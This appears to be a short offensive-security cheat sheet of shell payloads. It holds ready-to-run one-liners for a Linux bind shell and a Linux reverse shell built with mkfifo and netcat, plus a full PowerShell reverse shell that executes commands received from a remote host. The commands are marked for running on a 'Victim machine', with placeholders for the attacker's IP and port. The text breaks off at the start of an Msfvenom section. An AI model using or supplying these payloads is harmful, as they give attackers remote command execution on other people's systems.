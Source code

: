 # Shell Payload

## Alternative to "-e - execute " flag in nc win/linux ( to be run on Victim machine )

- Creating a bind shell for linux 

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

  (It creates a pipe and then starts the nc listner/executes the command)


- Creating a Reverse shell for Linux

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Nc using pipe for windows
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

Replace the "IP" & "Port"

# Msfvenom

1. {Staged} payloads are sent in two parts. The first part is called the stager
